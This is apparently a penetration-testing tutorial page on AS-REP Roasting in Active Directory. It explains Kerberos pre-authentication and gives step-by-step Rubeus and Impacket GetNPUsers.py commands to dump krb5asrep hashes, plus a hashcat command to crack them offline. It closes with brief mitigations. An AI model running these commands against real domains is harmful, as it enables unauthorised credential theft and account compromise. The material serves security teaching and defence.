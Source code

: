 # AS-REP Roasting with Rubeus/GetNPUsers.py

### **Introduction**

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

There are other tools out as well for AS-REP Roasting such as kekeo and Impacket's GetNPUsers.py. Rubeus is easier to use because it automatically finds AS-REP Roastable users whereas with GetNPUsers you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

***

### **AS-REP Roasting Overview**

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

***

### **Dumping KRBASREP5 Hashes with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

<figure><img src="../../../../../../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### **Dumping KRBASREP5 Hashes with Impacket's GetNPUsers.py**

Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

#### Check ASREPRoast for all domain users (credentials required)

```
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

#### Check ASREPRoast for a list of users (no credentials required)

```
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

***

### **Crack those Hashes with hashcat**

1. Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
2. Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
3. `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200

<figure><img src="../../../../../../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

### **AS-REP Roasting Mitigations**

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

***
